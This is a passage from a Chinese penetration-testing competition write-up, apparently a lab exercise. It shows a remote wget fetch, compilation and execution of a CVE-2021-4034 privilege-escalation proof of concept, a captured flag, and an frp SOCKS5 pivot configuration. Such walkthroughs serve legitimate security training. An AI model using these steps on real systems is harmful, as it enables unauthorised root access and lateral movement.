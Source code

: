 成功反弹shell

![image-20220530164742000000-1656056105927832.png](img/中小型企业环境网络安全渗透赛 local/3b3735b7f33683368e67bf1b72c9b0bc.png)

##### 任务8：wiki主机提权（T1059-使用恶意命令和脚本、T1068-利用漏洞提升权限）

上传C:\Users\Administrator\Desktop\工具\tools\CVE-2021-4034-main.zip中的cve-2021-4034-poc.c到web主机（需先解压缩）

![image-20220530170140000000-1656056108183288.png](img/中小型企业环境网络安全渗透赛 local/4579032fec0ffb4f303f9f1c1eede014.png)

下载cve-2021-4034-poc.c到wiki主机上

```
wget http://56.47.33.65/uploadfiles/2022-05/cve-2021-4034-poc.c -O /tmp/poc.c               
注意文件路径
```

![image-20220530170454000000-1656056109886341.png](img/中小型企业环境网络安全渗透赛 local/6781099c80d8bb1c36f2c98d59ea0250.png)

编译poc.c

```sh
cd /tmp
chmod 777 poc.c
gcc poc.c -o poc
```

![image-20220530171324000000-1656056111543306.png](img/中小型企业环境网络安全渗透赛 local/cdfaf7b3e74ecb03565fa63cd4842b5f.png)

执行编译文件，提权成功

```
./poc
```

![image-20220530171454000000-1656056113231919.png](img/中小型企业环境网络安全渗透赛 local/ffd0962b8a4f088f142343b69383206a.png)

Wiki主机的flag文件

位置：`/root/flag.txt`

```
flag{476E-3A33-C8E1-B3D8-6EE0-0DE4-238F-6C0D}
```



#### 阶段三：办公区渗透

##### 任务9：搭建二层代理（T1040-网络嗅探、T1105-传输工具、T1095-非应用层协议）

搭建frp代理，进行内网其他网段的渗透

复制一份frpc.ini，内容为：

```
#server_addr为web的IP
[common]
server_addr = 56.47.33.65
server_port = 7000

[socks5]
type = tcp
remote_port = 7891
plugin = socks5

```
